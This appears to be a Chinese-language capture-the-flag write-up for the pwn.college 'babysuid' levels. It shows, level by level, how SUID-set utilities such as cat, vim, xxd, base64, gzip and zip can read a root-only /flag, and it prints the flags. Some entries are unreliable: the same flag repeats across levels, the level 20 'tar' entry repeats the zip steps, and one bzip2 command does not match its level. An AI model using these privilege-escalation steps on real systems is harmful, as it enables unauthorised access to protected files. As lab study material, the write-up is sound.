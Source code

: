 


## Challenges

### 如何开始做题
```sh
/challenge/babysuid_level1
```
### 解题思路
根据这个章节的名字可知：程序的错误使用，某个可执行程序（通常为系统中常见的程序）被设置了suid位，设置了suid位的程序能够以该程序所有者的权限执行程序，因此如果程序所有者为root则能够以root权限执行，可完成提权，读取root文件等操作


### babysuid-level1
`/usr/bin/cat`被设置suid
```sh
cat /flag
# pwn.college{IIrsGeCfQOMDxkMJjv325KWhdRR.QXzQTMsQDMyMzW}
```
### babysuid-level2
`/usr/bin/more`被设置suid
```sh
more /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level3
`/usr/bin/less`被设置suid
```sh
less /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```
### babysuid-level4
`/usr/bin/tail`被设置suid
```sh
tail /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```
### babysuid-level5
`/usr/bin/head`被设置suid
```sh
head /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level6
`/usr/bin/sort`被设置suid
```sh
sort /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level7
`/usr/bin/vim`被设置suid
```sh
vim /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level8
`/usr/bin/emacs`被设置suid
```sh
emacs /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level9
`/usr/bin/nano`被设置suid
```sh
nano /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level10
`/usr/bin/rev`被设置suid
```sh
rev /flag | rev
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level11
`/usr/bin/od`被设置suid

打印八进制数，需要
```sh
od /flag

0000000  30576  11886  28515  27756  26469  31589  28267  27719
0000020  22099  21361  24936  29287  27467  13363  27714  25929
0000040  25680  20022  26188  11861  22609  21882  19796  20851
0000060  19780  19833  22394   2685
0000070
```
打印字符，是否可以写入文件
```sh
od /flag -c
0000000   p   w   n   .   c   o   l   l   e   g   e   {   k   n   G   l
0000020   S   V   q   S   h   a   g   r   K   k   3   4   B   l   I   e
0000040   P   d   6   N   L   f   U   .   Q   X   z   U   T   M   s   Q
0000060   D   M   y   M   z   W   }  \n
0000070
```

### babysuid-level12
`/usr/bin/hd`被设置suid
```sh
hd /flag 
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 6b 56 69 61  |pwn.college{kVia|
00000010  44 61 51 41 57 51 70 62  66 51 68 6e 66 47 6e 77  |DaQAWQpbfQhnfGnw|
00000020  64 47 30 75 73 4a 67 2e  51 58 30 55 54 4d 73 51  |dG0usJg.QX0UTMsQ|
00000030  44 4d 79 4d 7a 57 7d 0a                           |DMyMzW}.|
00000038
```

### babysuid-level13
`/usr/bin/xxd`被设置suid
```sh
xxd /flag 
00000000: 7077 6e2e 636f 6c6c 6567 657b 5144 5548  pwn.college{QDUH
00000010: 6f31 6970 7761 6f7a 2d71 5730 3461 5133  o1ipwaoz-qW04aQ3
00000020: 6844 466a 795a 6c2e 5158 3155 544d 7351  hDFjyZl.QX1UTMsQ
00000030: 444d 794d 7a57 7d0a                      DMyMzW}.
```


### babysuid-level14
`/usr/bin/base32 `被设置suid
```sh
base32 /flag | base32 -d
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level15
`/usr/bin/base64 `被设置suid
```sh
base64 /flag | base64 -d
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level16
`/usr/bin/split `被设置suid
`split`可将文件分割，默认分割名字前缀为`x`则分割后文件名为`xaa xab`
```sh
split /flag 
cat /xaa
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level17
`/usr/bin/gzip `
```sh
gzip /flag
# flag.gz 仍是root只可读
gzip /flag.gz -d -c
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```


### babysuid-level18
`/usr/bin/bzip2 `
```sh
bzip2 -z /flag
# flag.bz2 仍是root只可读
bzip2 -d -c /flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```

### babysuid-level19
`/usr/bin/zip `是否改成其他用户可读
```sh
zip z /flag.zip
#-rw-r--r-- 1 root hacker 214 Nov  9 00:16 /z.zip
# z.zip hacker可读
unzip /z.zip
# 将z.zip解压到hacker目录，其中的文件flag hacker可读
#r-------- 1 hacker hacker 56 Nov  9 00:08 flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```


### babysuid-level20
`/usr/bin/tar `是否改成其他用户可读
```sh
zip z /flag.zip
#-rw-r--r-- 1 root hacker 214 Nov  9 00:16 /z.zip
# z.zip hacker可读
unzip /z.zip
# 将z.zip解压到hacker目录，其中的文件flag hacker可读
#r-------- 1 hacker hacker 56 Nov  9 00:08 flag
# pwn.college{o5x4cvHAO69UaaXWS48P_uWzcN1.QX0QTMsQDMyMzW}
```